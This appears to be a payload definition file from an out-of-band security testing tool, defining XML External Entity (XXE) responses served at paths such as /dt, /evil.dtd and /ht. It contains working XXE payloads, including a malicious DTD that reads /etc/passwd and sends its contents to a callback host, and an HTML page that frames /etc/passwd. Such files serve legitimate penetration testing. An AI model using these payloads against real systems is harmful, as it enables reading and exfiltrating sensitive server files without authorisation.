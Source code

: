 ```yaml
---
title: XXE
description: More XXE
weight: 1
payloads:
  - sort_order: 1
    pattern: /dt$
    is_final: true
    data:
      headers:
      Content-Type: text/xml
      body: |-
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
          <!ELEMENT foo ANY >
          <!ENTITY xxe SYSTEM "http://{{ .Host }}/{{ .NotifyString }}/xxe-test" >
        ]>
        <foo>&xxe;</foo>

  - sort_order: 1
    pattern: /evil\.dtd$
    is_final: true
    data:
      headers:
        Content-Type: text/xml
      body: |-
        <!ENTITY % payl SYSTEM "file:///etc/passwd">
        <!ENTITY % int "<!ENTITY % trick SYSTEM 'http://{{ .Host }}:80/{{ .NotifyString }}/xxe?p=%payl;'>">

  - sort_order: 1
    pattern: /xxe-test$
    is_final: true
    data:
      headers:
        Content-Type: text/plain
      body: I should be loaded from http://{{ .Host }}/dt

  - sort_order: 1
    pattern: /ht$
    is_final: true
    data:
      headers:
        Content-Type: text/html
      body: |
        <html>
        <body>
          <img src="{{.NotifyString}}/static-lh" />
          <iframe src="file:///etc/passwd" height="500"></iframe>
        </body>
        </html>

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)


### /evil.dtd

dtd for use by others

### /ht

I frame callback
